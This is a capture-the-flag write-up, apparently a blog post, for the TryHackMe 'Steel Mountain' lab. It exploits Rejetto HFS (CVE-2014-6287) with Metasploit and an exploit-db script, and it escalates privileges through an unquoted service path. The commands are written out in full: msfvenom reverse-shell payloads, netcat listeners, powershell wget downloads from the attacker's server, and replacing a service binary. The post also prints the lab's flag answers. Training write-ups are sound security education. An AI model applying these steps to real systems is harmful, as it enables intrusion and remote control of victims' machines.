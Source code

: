 ```yaml
---
title: 'Steel Mountain 🗻'
excerpt: 'Featured writeup'
date: '2021-03-27T05:35:07.322Z'
author:
  name: Collin Orner
  picture: '/assets/blog/authors/collin.jpeg'
---
```



# Task 1 - Introduction

*Deploy the Machine.*

## Who is the employee of the month?

If you go to the IP of the website, you will see a picture of a man from Mr. Robot. If you watched the show, you may recognize him. I forgot his name, so I reverse searched the image to find his name.

**Answer:**  `Bill Harper`

# Task 2 - Initial Access

## Scan the machine with nmap. What is the other port running a web server on?

I ran `nmap -sCV -A -Pn -vvv <ip>` to find the port running a http web server.

**Answer:** `8080`

## Take a look at the other web server. What file is running?

After finding the port number from the nmap scan, I went to the url with the port number and found the server information at the bottom. I did some OSINT on the server version and found the exact name.

**Answer:** `Rejetto Http File Server`

## What is the CVE number to exploit this file server?

Along with finding the file server running, on the same website it showed the CVE number. [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

**Answer:** `2014-6287`

## Use Metasploit to get an initial shell. What is the user flag?

run Metasploit with `msfconsole`

search for the exploit by typing in the CVE number with the command `search 2014-6287`

use the exploit with `use 0`

all you have to set is your RHOSTS and RPORT. Under the `show options` command it shows that there are a lot of required options but you only need those 2. 

I was getting an error saying, "This exploit may require manual cleanup of '%TEMP%\txVTS.vbs' on the target." To fix this, simply restart your box and get a new IP.

After running `exploit` I got a meterpreter shell within the metasploit console.

Running `pwd` I found by default I was put in the directory under the Users\bill, and figured I might check the Desktop.

On the Desktop there was a user.txt file, so I ran `cat user.txt` to get the flag

**Answer:**  `b04763b6fcf51fcd7c13abc7db4fd365`

# Task 3 - Privilege Escalation (With Metasploit)

## Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

Download the script from the box with `git clone https://github.com/PowerShellMafia/PowerSploit.git`

I put it into my TryHackMe folder for SteelMountain to keep it more organized. 

Go back to your meterpreter and upload it with `upload /home/kali/../PowerUp.ps1`

On the box it tells you to run `load powershell` in the meterpreter then `powershell_shell`

I checked to run the script with `./PowerUp.ps1` and it might've executed, but I checked for the CanRestart option with the command `invoke-allchecks` 

**Answer:**  `AdvancedSystemCareService9`

## What is the root flag?

First, I made the reverse shell with the command given from the box `msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o Advanced.exe`

Then I went to the meterpreter and backgrounded the shell to load the exploit named `exploit/multi/handler` 

With this as my exploit, I set the payload to `windows/shell/reverse_tcp`

Make sure you match up the LHOST and LPORT to link with the reverse shell created with msfvenom. 

Run the exploit, and go into the old meterpreter with `sessions 0`

In here, cd into the Advanced SystemCare in the Program Files x86.

Open a shell with `shell` and stop the program with `sc stop AdvancedSystemCareService9 `

Exit out of this shell and upload the .exe you made with msfvenom into the Advanced SystemCare folder. 

Go back into the shell, and start the service with `sc start AdvancedSystemCareService9`

This should launch the program with your executable making it so you can get root access. 

Look around in the root folder for the root.txt file.

**Answer:** `9af5f314f57607c00fd09803a587db80`

# Task 4 - Access and Escalation Without Metasploit

First you want to get your exploit.

I searched for the exploit using searchsploit; `searchsploit rejetto http file server`

As you can see, the EDB-ID matches up with the searchsploit Exploit Title.

If you're on kali linux, it's already in your system so you can copy it over with `cp /usr/share/exploitdb/exploits/windows/remote/39161.py <filename.py>`

Nano into the .py file and set your local ip address to your openvpn IP.

Set the local port number to a port you will remember to run netcat with later on. 

On another tab in your terminal, start a SimpleHTTPServer with `sudo python -m SimpleHTTPServer <port>` (just use like port 80 or 8080)

On another tab in your terminal, start up that netcat listener on the port you put in the .py exploit file. `nc -lvnp <port>`

Run the exploit .py file with the command `python <filename>.py <target IP> 8080` 

If you get a 404 response in your Http Server, copy the ncat.exe to nc.exe, the script reads the listener as a different file name then what the box provides.

Once you get a 200 response message in the Http Server, run the exploit again and you should get a shell in your NC listener. 

## What powershell -c command could we run to manually find out the service name?

**Answer:** `powershell -c Get-Service`

Now let's escalate to Administrator with our new found knowledge.

Download the WinPeas.exe file from the GitHub repo for privilege escalation. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated Releases/winPEASx64.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

With this, upload it to your target's machine with the new command you learned (powershell -c) `powershell -c wget "http://<local IP><port>/winPEASx64.exe" -outfile "winPEAS.exe"`

Run the file by simply typing the file name `winPEAS.exe`

Now, go back to your local host and make the ASCService.exe like we did with metasploit last task. `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe` this will make the ASCService.exe on your local machine, and now you have to upload it to the target host.

Upload it with `powershell -c wget "http://<ip>:<port>/ASCService.exe -outfile "ASCService.exe"`

Now, just like in the Metasploit part, stop the service with `sc stop AdvancedSystemCareService9`

And then copy the .exe to the Advanced SystemCare with `copy ASCService.exe "Advanced SystemCare"`

Just start the service up again and your exploit will be encoded into the start. `sc start AdvancedSystemCareService`

Now you are root, the root.txt flag is right in the open it's not hard to find at all if you still need the root.txt flag. 

Congratulaions! You did the room. Thanks for reading my writeup! 🐦 **@collinhacks**

